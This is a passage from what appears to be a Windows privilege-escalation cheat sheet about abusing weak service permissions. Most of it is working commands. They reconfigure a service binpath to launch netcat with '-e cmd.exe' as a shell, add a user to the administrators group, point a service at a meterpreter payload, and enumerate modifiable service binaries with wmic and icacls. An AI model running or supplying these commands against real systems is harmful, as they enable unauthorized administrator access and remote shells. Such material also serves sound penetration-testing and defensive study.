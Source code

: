 [You can download accesschk.exe for XP for here](https://github.com/ankh2054/windows-pentest/raw/master/Privelege/accesschk-2003-xp.exe)

### Enable service

If you are having this error \(for example with SSDPSRV\): 

_System error 1058 has occurred.  
The service cannot be started, either because it is disabled or because it has no enabled devices associated with it._

You can enable it using

```bash
sc config SSDPSRV start= demand
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

**Take into account that the service upnphost depends on SSDPSRV to work \(for XP SP1\)**

### **Modify service binary path**

If the group "Authenticated users" has **SERVICE\_ALL\_ACCESS** in a service, then it can modify the binary that is being executed by the service. To modify it and execute **nc** you can do:

```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

### Restart service

```text
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```

Other Permissions can be used to escalate privileges:  
**SERVICE\_CHANGE\_CONFIG** Can reconfigure the service binary  
**WRITE\_DAC:** Can reconfigure permissions, leading to SERVICE\_CHANGE\_CONFIG  
**WRITE\_OWNER:** Can become owner, reconfigure permissions  
**GENERIC\_WRITE:** Inherits SERVICE\_CHANGE\_CONFIG  
**GENERIC\_ALL:** Inherits SERVICE\_CHANGE\_CONFIG

**To detect and exploit** this vulnerability you can use _exploit/windows/local/service\_permissions_

### Services binaries weak permissions

Check if you can modify the binary that is executed by a service.

You can get every binary that is executed by a service using **wmic** \(not in system32\) and check your permissions using **icacls**:

```bash
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```
